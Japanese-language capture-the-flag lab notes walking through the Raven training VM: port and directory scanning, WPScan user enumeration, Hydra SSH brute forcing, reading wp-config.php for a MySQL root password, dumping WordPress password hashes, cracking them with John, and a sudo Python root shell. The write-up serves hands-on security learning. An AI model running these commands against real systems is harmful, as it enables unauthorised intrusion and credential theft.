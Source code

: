 ## Raven 683~

## 目的
- flag4.txtを見る
## 実践
- ポートスキャンまでは同じ
  - 192.168.56.102 host
  - 192.168.56.107 target
  - port 22,80,111
- Dirbでサイトを探す
  - `dirb $URL -r`
- Webサイトを見てみる
  - `http://192.168.56.107/wordpress`
  - サイトが崩れているので直す
  - `sudo vi /etc/hosts` 下のを書く
  - `192.168.56.107 raven.local` 
- WPScanでWordPressをチェックする
  - wpscanをインストールできるようにNATに接続する
  - `sudo gem install wpscan`
  - `sudo wpscan --url 192.168.56.107/wordpress --enumerate u`
  - wpscanで得た名前をnames.txtに書いておく。`cat > names.txt`
    ```
    michael
    steven
    ```
- Hydraでパスワード探す
  - `sudo hydra ssh://192.168.56.107 -L names.txt -P /usr/share/john/password.lst -v -t 4`
  - httpでなく、sshなので注意
  - `michael`だけしかパスワードわからないので、そこで止める
- sshで接続
  - `ssh michael@$IP`
- MySQLの設定情報を見る
  - user,passworを探す
  - `cd /var/www/html/wordpress/`
  - `cat wp-config.php`
  - portを探す `netstat -antp`
  - MySQLのデフォルトポートは3306なので、それを使う
- MySQLに接続
  - `mysql -h localhost -u root -pR@v3nSecurity`
  - `-p`オプションはパスワードだが、なぜかスペースなしで続けてパスワードを書く。そもそもパスワードをコマンドに書かない
  - mysql> こんなプロンプトが返ってきたら成功
  - 注意: MySQLはコマンドの最後に`;`をつけないとダメ
  - データベースに何が入っているか表示する `show databases;`
  - wordpressが気になるので移動して見る `use wordpress;`
  - `select concat(user_login, ":", user_pass) from wp_users into outfile '/tmp/hash.txt';`
  - ユーザ名とパスワードの書いたhash.txtが作成される
  - `quit;`
- ParrotOS側のhash.txtにコピーする
  - 通常パスワードの解析は攻撃側端末で行う理由は３つ
  - 1. ターゲット端末にJohnがインストールされてることはない
    2. ターゲット端末に負荷がかかるので見つかる可能性がある
    3. 攻撃端末の方が高スペックである
  - ターゲット端末のhash.txtをコピーして、ParrotOS側の端末のターミナルにペーストする
- John the ripper(ParrotOS側で)
  - hash.txtの場所に移動して、またはhash.txtを絶対パスで指定して以下を実行 
  - `sudo john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt`
- sudo -l
  - userとpasswordがわかるので、sshでログインする
  - sshで接続
  - `sudo -l` Pythonがルート権限で使えるのを確認
- Pythonでrootシェルを取得
  - `sudo /usr/bin/python`
  - ここでPythonのプログラムが起動する。Pythonはシェルを起動できるので、Pythonで起動したものはrootになれる
  - `import os`
  - `os.system('/bin/bash')`
- ルートフラグを開く
  - `cd /root`
  - `cat flag4.txt`    
